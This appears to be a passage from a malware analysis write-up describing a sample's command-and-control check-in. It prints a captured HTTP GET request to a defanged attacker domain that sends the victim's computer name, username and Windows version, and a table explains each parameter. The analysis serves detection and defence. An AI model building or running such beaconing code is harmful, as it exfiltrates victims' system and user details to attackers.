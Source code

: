 ![c2-overview](/images/6e0af10a5030fa409da15edbd6750a489f14cbc2fd90b11be6abd88c2cf54793.png)
*Figure 6: High Level C2 Behavior Overview*

Now that we understand the high level concepts, let's discuss the details and see what the C2 traffic looks like.

Once persistence has been established, it will communicate to the C2 server using the string we identified earlier as the URI parameters.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/userlog.php?id=MALWARE-PC&&user=yourmom&&OsI=Windows7Ultimate HTTP/1.1
Host:subscribe[.]tomcruefrshsv[.]com
Connection: close
```

The C2 checkin URI parameters are as follows.

| URI Parameter | Description  |
| ------------- | ------------ |
| id            | ComputerName |
| user          | Username     |
| OsI           | ProductName  |
